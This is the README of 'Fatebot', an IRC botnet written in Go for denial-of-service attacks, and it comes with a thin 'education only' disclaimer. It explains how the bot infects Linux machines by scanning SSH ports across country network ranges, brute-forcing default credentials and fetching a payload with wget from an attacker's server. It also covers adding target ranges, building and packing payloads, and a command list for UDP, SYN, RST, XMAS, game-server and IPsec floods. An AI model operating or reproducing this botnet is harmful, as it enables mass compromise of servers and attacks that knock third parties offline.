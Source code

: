 # Fatebot
This is my first <strong>IRC botnet</strong> for launch Denial of Service attack. Scan target are anything that run linux, open default SSH port, use default username and password. This bot are write in "Go" language. <strong>For education purpose only. Please test it in your lab, i create this for join university in the future not for attack anyone server with out any permission!!!</strong>

<br>Bozer\Bulldozer (old name is R4bin) the author of Fatebot, feel free to do anything with it. read more detail in license.</br>
<br><ins>If you have an issue please understand that some of them i can't answer because it will make me have a trouble with The cyber law.</ins></br>

<img src="assets/FateBot.png" alt="Fatebot" width="400" height="400">

# Infect
The infect function of this bot is scan by default SSH port. Option about scan feature in this bot is scan on USA, CN, KR network or you can do a random scan or even you can add you own mods like russia or india isp mods, all of these it's up to you. This bot will brute-force attack to the target and use <strong>"wget"</strong> for download the payload from FTP server, so... please prepair your FTP server first it's very important for the infect process. <strong>(You can use any option any server type that can host the payload not maintionly to be an FTP server.)</strong>

# Add more network

(1) Create slice of your network.

	Example:
	
		var UK_netList = []string{
			"123.123", // 123.123.0.0/16
			"234.234", // 234.234.0.0/16
		}
	
	# After v0.6.0 will be use only 16bit of the ip range(I'm still confused about subnet mask lol).

(2) Then go down to the "ScanMode" function and add the case of your network and custom the command.
	
	Example:
		
		case modes == "-uk": //custom your command.
			b.Scanner(UK_netList, false) //just config the first argument to your network.
		
<strong>I use shodan to do a static and analysis of scanning like how many of SSH port are open on which isp/org, what is the most used OS, version and etc.</strong>

# DDoS
Attack feature will play around with <strong>"Volumetric"</strong> mostly but also have an <strong>"Application"</strong> too.
All of the attack vectors will be random source port automatically.


<img src="assets/synflood.png" alt="synflood, dos example">

# Build payload

	chmod +x build.sh
	./build.sh <payload>
	
	#Tip: You can download upx packer to make your payload have a smaller size. It's not help much but it's really useful.
	
	Redhat:
		yum install upx -y && upx -9 bin/<payload>
		
	Debian:
		apt install upx -y && upx -9 bin/<payload>
		
# Requirements
<ul>
	<li>IRC Server</li>
</ul>

<ul><li>IRC Backup Server <strong>(Optional)</strong></li></ul>

<ul>
	<li>IRC Client</li>
</ul>

<ul>
	<li>Payload Hosting Server</li>
</ul>

<ul>
	<li>Go Compiler</li>
</ul>

<ul>
	<li>UPX Packer <strong>(Optional)</strong></li>
</ul>

<ul>
	<li>Code\Text Editor</li>
</ul>

# IRC Commands
	
	DDoS Vectors:
	
		?udp 	 <srcIP> <dstIP> <port> <size>	  	Just a normal UDP Flood attack.
		?syn 	 <srcIP> <dstIP> <port> <size>		Just a normal SYN Flood attack.	
		?ack 	 <srcIP> <dstIP> <port> <size>		Just a normal ACK Flood attack.
		?fin	 <srcIP> <dstIP> <port> <size>		Flood TCP FIN packets to request close connection when target server are blocking a syn packet.
		?rst 	 <srcIP> <dstIP> <port> <size>		Flood TCP RST packets to broke a TCP connection between client and server.
		?sap     <srcIP> <dstIP> <port> <size>		Flood by using TCP SYN+ACK Flags to the target server.
		?xmas    <srcIP> <dstIP> <port> <size>		Flood TCP packets by using all of TCP Flags to target server.
		?vse 	 <srcIP> <dstIP>			Flood TSource Engine Query request to the target game server that used valve source engine.
		?fms 	 <srcIP> <dstIP>			Flood query payload to a FiveM game server(They use to host GTAV i guess. i'm only playing "Hell let loose" for now, lol).
		?ipsec 	 <srcIP> <dstIP>			Flood payload to to overwhelm system resources of VPN service and make IPSec VPN connections being affected.
	
	?scan 	 <modes> <ftp>				Scan SSH port on the network, Brute-Force attack to the target and load the payload by "wget".
	
	Scanner modes:
	
		-cn		Scan on china network.
		-usa		Scan on united state of america network.
		-kr		Scan on south korea network.
		-r		Scan with random ip.	
		
	?info				Get bot system information, for bot analysis.
	?kill				Bot self-close.
	?stopddos 			Stop ddos attacking.
	?stopscan			Stop scanning.
